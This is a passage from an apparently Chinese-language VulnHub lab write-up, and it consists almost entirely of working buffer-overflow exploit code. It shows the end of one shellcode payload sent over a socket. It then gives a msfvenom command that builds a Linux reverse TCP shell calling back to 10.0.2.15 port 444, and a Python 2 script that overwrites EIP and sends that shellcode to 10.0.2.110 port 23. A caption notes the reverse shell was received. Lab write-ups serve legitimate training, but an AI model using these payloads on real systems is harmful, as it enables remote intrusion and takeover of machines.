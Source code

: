 ```python
"\xa1\x7a\xd2\xb8\x3c\x10\xd5\xdf\x5e\x12\xd7\xd1\x8a\x99\x31"
"\xba\x26\x46\x80\xb8\xaf\xb5\xa3\xb1\xc9\xc5\x52\x10\x42\x1c"
"\x28\x9e\x3e\x65\x3b\xb8\xc6\xa5\x75\x86\xc9\xc5\xbf\xb3\x5b"
"\x74\xd7\x59\xd5\x47\x80\x87\x07\xe6\xbd\xc2\x6f\x46\x35\x2d"
"\x50\xd7\x93\xf4\x0a\x11\xd6\x5d\x72\x34\xc7\x16\x36\x54\x83"
"\x80\x60\x46\x81\x96\x60\x5e\x81\x86\x65\x46\xbf\xa9\xfa\x2f"
"\x51\x2f\xe3\x99\x37\x9e\x60\x56\x28\xe0\x5e\x18\x50\xcd\x56"
"\xef\x02\x6b\xd6\x0d\xfd\xda\x5e\xb6\x42\x6d\xab\xef\x02\xec"
"\x30\x6c\xdd\x50\xcd\xf0\xa2\xd5\x8d\x57\xc4\xa2\x59\x7a\xd7"
"\x83\xc9\xc5")

inputBuffer = buff + eip   + shellcode 
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((ip, port))
s.send(inputBuffer)
```

![21](https://static.iihack.com/vulnhub/613/21.png)

![22](https://static.iihack.com/vulnhub/613/22.png)

成功接收反弹

##### linux环境

生成shellcode

```
msfvenom -p linux/x86/shell_reverse_tcp LHOST=10.0.2.15 LPORT=444 -f python -b "\x00\x4d\x4f\x5f\x79\x7e\x7f"
```

python脚本

```
#!/usr/bin/python2
import socket
import sys
import os
ip = "10.0.2.110"
port = 23
buff = "A"*1902
eip = '\xD0\x12\x50\x62'
#eip high memory
nullByte = "\x00"
nops = "\x90" * 30 
buf =  b""
buf += b"\x29\xc9\x83\xe9\xef\xe8\xff\xff\xff\xff\xc0\x5e\x81"
buf += b"\x76\x0e\xd0\xba\xdc\xd7\x83\xee\xfc\xe2\xf4\xe1\x61"
buf += b"\x2b\x34\x83\xf9\x8f\xbd\xd2\x33\x3d\x67\xb6\x77\x5c"
buf += b"\x44\x89\x0a\xe3\x1a\x50\xf3\xa5\x2e\xb8\xb0\xdc\xd5"
buf += b"\xdf\xd2\xde\xd7\xd1\x06\x55\x36\x60\xdc\x8c\x86\x83"
buf += b"\x09\xdf\x5e\x31\x77\x5c\x85\xb8\xd4\xf3\xa4\xb8\xd2"
buf += b"\xf3\xf8\xb2\xd3\x55\x34\x82\xe9\x55\x36\x60\xb1\x11"
buf += b"\x57"
shellcode = buf
inputBuffer = buff + eip   + shellcode 
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((ip, port))
s.send(inputBuffer)
```

![23](https://static.iihack.com/vulnhub/613/23.png)
